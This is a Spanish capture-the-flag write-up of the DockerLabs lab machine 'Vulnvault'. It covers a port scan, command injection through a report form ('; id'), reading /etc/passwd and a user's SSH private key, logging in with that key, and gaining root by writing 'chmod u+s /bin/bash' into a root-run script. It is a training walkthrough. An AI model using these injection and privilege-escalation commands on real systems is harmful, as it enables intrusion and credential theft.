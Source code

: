 ```yaml
---
layout: post
title: "Vulnvault"
date: 2024-11-05
 14:00:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Vulnvault </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Descubriendo puertos abiertos de la maquina objetivo.

`sudo nmap -p- -sS --open -T5 --min-rate=5000 -n -Pn -sCV 172.17.0.2`

![img](/notas/public/img/dockerlabs/vulnvault/nmap.png){:.margin}

**2\.** Revisamos la web, tenemos un formulario para generar reportes y otra para subir archivos; haciendo fuzzing podemos encontrar unos cuantos mas pero nada que ver, sin vectores de entrada.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/vulnvault/80.png){:.margin}

**3\.** El nombre tanto como la fecha ingresada en el formulario se refleja por debajo al generar el reporte; ingresamos un comando y vemos que tenemos ejecucion remota de comandos.  

`; id`

![img](/notas/public/img/dockerlabs/vulnvault/80reporte.png){:.margin}
![img](/notas/public/img/dockerlabs/vulnvault/80comando.png){:.margin}

**4\.** Leemos el passwd para ver los usuarios del sistema, encontramos el usuario samara. 

`; cat /etc/passwd`

![img](/notas/public/img/dockerlabs/vulnvault/passwd.png){:.margin}

**5\.** Ya sabiendo el usuario leemos su idrsa, nos copiamos toda la clave.

`; cat /home/samara/.ssh/id_rsa`

![img](/notas/public/img/dockerlabs/vulnvault/idrsa.png){:.margin}

**6\.** Lo guardamos en un fichero, le damos los permisos al idrsa y nos conectamos por ssh.

`nano id_rsa`

`chmod 600 id_rsa`

`ssh -i id_rsa samara@172.17.0.2`

![img](/notas/public/img/dockerlabs/vulnvault/sshsamara.png){:.margin}

**7\.** No tenemos binarios SUID, encuentro unos ficheros pero sin mas.

`cat message.txt`

`cat user.txt`

![img](/notas/public/img/dockerlabs/vulnvault/txts.png){:.margin}

**8\.** Vemos los procesos y nos encontramos que root ejecuta un script que crea el fichero message.txt; revisamos los permisos de echo.sh, podemos escribir en el fichero; hacemos que root convierta la bash en binario SUID; por ultimo ejecutamos la bash manteniendo los privilegios de root.

`ps -aux`

`cat /usr/local/bin/echo.sh`

`ls -l !$`

`echo "chmod u+s /bin/bash" > !$`

`bash -p`

![img](/notas/public/img/dockerlabs/vulnvault/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>